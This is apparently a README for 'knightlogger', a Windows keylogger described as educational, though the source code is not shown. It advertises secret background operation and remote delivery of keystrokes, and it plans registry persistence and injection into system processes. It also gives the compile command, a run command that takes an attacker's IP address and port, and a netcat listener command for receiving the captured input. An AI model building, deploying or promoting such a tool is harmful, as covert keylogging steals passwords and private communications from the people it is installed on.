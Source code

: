 # knightlogger
a basic stable keylogger written for eductional purpose works on windows platforms 
notice this progeam is making high cpu usage
# options
- remote access keylogger
- works in background secretly
 -> additional functions will be added soon like registery persistence and inject in system proccesses
# compile
`g++ -o knightlogger.exe knightlogger.cpp -lwsock32`
lwsock32 for telling g++ to link windows socket library

**easy to use**
`knightlogger.exe ipaddr portnumber`

you can listen for connection by many ways for example netcat way
`nc -lvp 4444`

**notice:** support only english main alphabet ascii characters and some other special keys but not all ,  i will add full support soon 

